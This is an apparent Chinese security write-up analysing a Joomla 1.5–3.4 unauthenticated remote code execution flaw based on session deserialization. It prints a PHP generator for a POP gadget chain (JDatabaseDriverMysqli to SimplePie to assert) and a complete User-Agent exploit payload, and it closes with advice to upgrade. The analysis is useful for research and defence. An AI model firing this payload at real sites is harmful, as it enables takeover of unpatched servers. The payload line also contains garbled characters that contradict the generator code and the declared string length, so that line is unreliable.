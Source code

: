# Joomla远程代码执行漏洞分析

说一下这个漏洞的影响和触发、利用方法。这个漏洞影响Joomla 1.5 to 3.4全版本，并且利用漏洞无需登录，只需要发送两次数据包即可（第一次：将session插入数据库中，第二次发送同样的数据包来取出session、触发漏洞、执行任意代码），后果是直接导致任意代码执行。

0x00 漏洞点 —— 反序列化session
=====

这个漏洞存在于反序列化session的过程中。

漏洞存在于`libraries/joomla/session/session.php`中，_validate函数，将ua和xff调用set方法设置到了session中（`session.client.browser和session.client.forwarded`）

```
protected function _validate($restart = false)
    {
        ...

        // Record proxy forwarded for in the session in case we need it later
        if (isset($_SERVER['HTTP_X_FORWARDED_FOR']))
        {
            $this->set('session.client.forwarded', $_SERVER['HTTP_X_FORWARDED_FOR']);
        }

        ...
        // Check for clients browser
        if (in_array('fix_browser', $this->_security) && isset($_SERVER['HTTP_USER_AGENT']))
        {
            $browser = $this->get('session.client.browser');

            if ($browser === null)
            {
                $this->set('session.client.browser', $_SERVER['HTTP_USER_AGENT']);
            }
            elseif ($_SERVER['HTTP_USER_AGENT'] !== $browser)
            {
                // @todo remove code: $this->_state = 'error';
                // @todo remove code: return false;
            }

```

最终跟随他们俩进入数据库，session表：

![](http://drops.javaweb.org/uploads/images/98ecd52ab8d975876b34e38af75bf2dcb4768fc6.jpg)

正常情况下，不存在任何问题。因为我们控制的只是反序列化对象中的一个字符串，不会触发反序列相关的漏洞。 但是，因为一个小姿势，导致后面我们可以控制整个反序列化对象。

0x01 利用|字符伪造，控制整个反序列化字符串
=====

首先，我们需要先看看@Ryat老师的pch-013：`https://github.com/80vul/phpcodz/blob/master/research/pch-013.md`  
和pch-013中的情况类似，joomla也没有采用php自带的session处理机制，而是用多种方式（包括database、memcache等）自己编写了存储session的容器（storage）。

其存储格式为『键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值』，未正确处理多个竖线的情况。  
那么，我们这里就可以通过注入一个"|"符号，将它前面的部分全部认为是name，而|后面我就可以插入任意serialize字符串，构造反序列化漏洞了。

![](http://drops.javaweb.org/uploads/images/5aef4e14e6ddf6ed908d0bd51a507c9755187879.jpg)

但还有一个问题，在我们构造好的反序列化字符串后面，还有它原本的内容，必须要截断。而此处并不像SQL注入，还有注释符可用。 不知各位是否还记得当年wordpress出过的一个[XSS](http://www.leavesongs.com/HTML/wordpress-4-1-stored-xss.html)，当时就是在插入数据库的时候利用"%F0%9D%8C%86"字符将mysql中utf-8的字段截断了。

这里我们用同样的方法，在session进入数据库的时候就截断后面的内容，避免对我们反序列化过程造成影响。

0x02 构造POP执行链，执行任意代码
=====

在可以控制反序列化对象以后，我们只需构造一个能够一步步调用的执行链，即可进行一些危险的操作了。 exp构造的执行链，分别利用了如下类：

1.  JDatabaseDriverMysqli
2.  SimplePie

我们可以在JDatabaseDriverMysqli类的析构函数里找到一处敏感操作：

```
    public function __destruct()
    {
        $this->disconnect();
    }
    ...
    public function disconnect()
    {
        // Close the connection.
        if ($this->connection)
        {
            foreach ($this->disconnectHandlers as $h)
            {
                call_user_func_array($h, array( &$this));
            }

            mysqli_close($this->connection);
        }

        $this->connection = null;
    }

```

当exp对象反序列化后，将会成为一个JDatabaseDriverMysqli类对象，不管中间如何执行，最后都将会调用`__destruct`，`__destruct`将会调用`disconnect`，`disconnect`里有一处敏感函数：`call_user_func_array`。  
但很明显，这里的`call_user_func_array`的第二个参数，是我们无法控制的。所以不能直接构造assert+eval来执行任意代码。  
于是这里再次调用了一个对象：SimplePie类对象，和它的init方法组成一个回调函数`[new SimplePie(), 'init']`，传入`call_user_func_array`。 跟进init方法：

```
function init()
    {
        // Check absolute bare minimum requirements.
        if ((function_exists('version_compare') && version_compare(PHP_VERSION, '4.3.0', '<')) || !extension_loaded('xml') || !extension_loaded('pcre'))
        {
            return false;
        }
        ...
        if ($this->feed_url !== null || $this->raw_data !== null)
        {
            $this->data = array();
            $this->multifeed_objects = array();
            $cache = false;

            if ($this->feed_url !== null)
            {
                $parsed_feed_url = SimplePie_Misc::parse_url($this->feed_url);
                // Decide whether to enable caching
                if ($this->cache && $parsed_feed_url['scheme'] !== '')
                {
                    $cache = call_user_func(array($this->cache_class, 'create'), $this->cache_location, call_user_func($this->cache_name_function, $this->feed_url), 'spc');
                }

```

很明显，其中这两个call_user_func将是触发代码执行的元凶。 所以，我将其中第二个call_user_func的第一个参数cache_name_function，赋值为assert，第二个参数赋值为我需要执行的代码，就构造好了一个『回调后门』。  
所以，exp是怎么生成的？给出我写的生成代码：

```
<?php
//header("Content-Type: text/plain");
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
echo serialize($a);

```

![](http://drops.javaweb.org/uploads/images/1b4060fa6fc09a6c592dca3eabc9084330f474d5.jpg)

将这个代码生成的exp，以前面提到的注入`『|』`的变换方式，带入前面提到的user-agent中，即可触发代码执行。 其中，我们需要将`char(0)*char(0)`替换成`\0\0\0`，因为在序列化的时候，protected类型变量会被转换成`\0*\0name`的样式，这个替换在源代码中也可以看到：

```
$result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);

```

构造的时候遇到一点小麻烦，那就是默认情况下SimplePie是没有定义的，这也是为什么我在调用SimplePie之前先new了一个JSimplepieFactory的原因，因为JSimplepieFactory对象在加载时会调用import函数将SimplePie导入到当前工作环境：

![](http://drops.javaweb.org/uploads/images/fe67cff8b19f9060db13c303afb7a9929c35d21b.jpg)

而JSimplepieFactory有autoload，所以不再需要其他include来对其进行加载。 给出我最终构造的POC（既是上诉php代码生成的POC）：

```
User-Agent: 123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"ρhιτhσπpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}ð

```

给一张代码成功执行的POC：

![](http://drops.javaweb.org/uploads/images/c8b42fc5fbe05e64a6e025882aa4f34289ad6589.jpg)

0x03 影响版本 & 修复方案
================

1.5 to 3.4全版本

更新到3.4.6版本